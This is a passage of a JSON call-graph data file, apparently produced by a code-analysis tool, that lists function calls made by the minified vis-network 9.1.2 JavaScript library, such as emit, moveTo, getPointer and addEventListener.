"static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "findCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getViewPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "animateView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "releaseNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_transitionRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "configureKeyboardBindings"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "configureKeyboardBindings"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "loadNavigationElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cleanNavigation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "configureKeyboardBindings"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cleanNavigation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_stopMovement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindToRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkSelectionChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "commitAndEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkSelectionChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "commitAndEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "selectAdditionalOnPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "selectOnPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onTouch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isSelected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onDragStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onDragStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "commitAndEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "canvasToDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_checkHidePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_checkShowPopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hoverObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getConstructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 